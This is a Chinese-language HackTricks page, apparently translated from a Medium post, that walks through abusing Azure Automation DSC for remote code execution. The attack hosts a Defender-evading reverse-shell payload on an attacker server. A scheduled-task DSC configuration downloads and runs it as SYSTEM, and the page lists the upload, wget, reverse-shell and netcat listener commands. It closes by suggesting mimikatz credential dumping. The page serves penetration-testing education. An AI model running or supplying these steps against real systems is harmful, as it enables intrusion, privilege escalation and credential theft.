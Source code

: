# Az - 状态配置 RCE

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

**本文摘自** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### 远程服务器 (C2) 基础设施准备 <a href="#f0fa" id="f0fa"></a>

我将在远程服务器“40.84.7.74”上托管一个精简版的Nishang Invoke-PowerShellTcp.ps1有效载荷，该服务器是Kali盒子。有效载荷名称将是“RevPS.ps1”。为了防止Nishang脚本因任何原因（也许您更愿意将文件保存到磁盘）被Windows Defender删除，我在这里有一个轻量级版本，您可以使用它来绕过Defender：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1)。这将由Kali盒子上的一个简单Python Simple Server托管。

### 步骤 1 — 创建文件 <a href="#89de" id="89de"></a>

我们需要创建另一个DSC配置文件。模板可以在这里下载：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1)。这个配置文件将使用我们之前使用的相同文件写入功能。这次，内容包括从我们的远程服务器下载和执行有效载荷的代码。此外，我们使用_ComputerManagementDsc_模块提供的计划任务功能。计划任务功能将是执行的关键角色，并稍后为我们提供SYSTEM权限。

我们还将下载一个脚本，用于将我们的配置发布到VM。它位于这里：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1)。

这些文件将作为模板。**您需要用您正在使用的变量名和参数填充**。这包括资源名称、文件路径以及您正在使用的外部服务器/有效载荷名称。请参考代码中的注释。

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### 步骤 2 — 压缩配置文件 <a href="#c2c2" id="c2c2"></a>

创建了两个文件后，我们将**‘reverse\_shell\_config.ps1’** 文件压缩，以便可以发送到存储账户
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### 步骤 3 — 设置存储上下文 & 上传 <a href="#bed9" id="bed9"></a>

我们将再次设置存储账户的上下文，我已经完成了这一步。我已经有了一个名为‘**azure-pentest**’的容器，所以我将在这里发布我的内容：
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### 第4步 — 准备Kali盒子 <a href="#20fb" id="20fb"></a>

在我们的Kali盒子中，我们可以简单地使用 _wget_ 命令下载我们的PowerShell有效载荷。原始的反向Shell脚本位于此处：[https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1)。
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

我们需要编辑反向 shell 脚本，加入我们的参数，这样一旦执行，Windows VM 就知道要连接到哪里。在我的例子中，我添加了以下内容：
```
```
RevPShell -Reverse 40.84.7.73 443
```
### 步骤 5 — 发布配置文件 <a href="#9ad6" id="9ad6"></a>

现在我们将运行我们的配置文件。我将我的设置为发布到桌面以便更好地视觉效果，但它几乎可以发布到任何地方。几分钟后，我们将看到反向 shell 脚本已经发布！

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 步骤 6 — 托管有效载荷并设置监听器 <a href="#c55f" id="c55f"></a>

一旦我们发布配置，我们可以同时启动一个 Python SimpleHTTPServer 在 80 端口上托管有效载荷，以及一个 netcat 监听器以便捕获连接：
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
我们看到计划任务已经运行，我们的有效载荷被检索并以**SYSTEM**级别权限在内存中执行！

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### 总结 <a href="#1ec2" id="1ec2"></a>

这为我们打开了许多可能性。由于我们有一个以**SYSTEM**运行的shell，我们可以使用mimikatz转储凭据（取决于云资源的EDR成熟度，这可能有风险）。如果你转储了凭据，很有可能这些凭据可以在不同资源中重复使用。最后，一个重要的收获是，你现在有能力将这个配置应用到多个VM上，而不仅仅是一个VM。

就此，我们的Azure自动化DSC冒险就结束了！我希望你玩得开心，学到了很多，并继续用你自己的创造力扩展知识。

<details>

<summary><strong>从零开始学习AWS黑客技术，成为英雄，就用</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果你想在**HackTricks中看到你的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享你的黑客技巧。

</details>
